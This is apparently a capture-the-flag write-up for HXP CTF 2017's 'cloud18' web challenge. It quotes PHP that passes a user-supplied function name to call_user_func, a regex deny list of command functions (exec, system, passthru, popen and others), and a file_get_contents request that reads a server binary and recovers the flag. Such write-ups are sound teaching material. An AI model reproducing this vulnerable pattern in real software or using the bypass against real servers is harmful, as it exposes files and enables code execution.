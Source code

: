 ```yaml
---
layout: post
title: HXP CTF 2017 - cloud18
categories: ctf_hxp2017
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```





We can:
- login
- register a new user

Once we are authenticated, we can use a text editor.

We take choose a function, write a regex, write some text and have the text that matches the regex replaced with the output of our functions. (line 35-37)
```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

The client provides a couple of examples (line 43-48)
```html
        <select name="method">
            <option value="" disabled selected>select a method</option>
            <option value="strtoupper">to upper case</option>
            <option value="strtolower">to lower case</option>
            <option value="ucfirst">first letter to upper case</option>
        </select>
```

However the method is only checked by this snippet (line 7-9)
```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

In index.php we notice that we have to execute /usr/bin/get_flag to get the flag
```php
		echo "<div class='alert success'>" . shell_exec("/usr/bin/get_flag") . "</div>";
```

However we cannot use shell_exec.
But we can download the whole binary
We craft a request that includes the file in the webpage and then download it.
```
method:file_get_contents
regex:\/usr\/bin\/get_flag
text:/usr/bin/get_flag
```

Now we should get some information reversing the binary.

Luckily the old `strings get_flag | grep hxp` worked
`hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}`
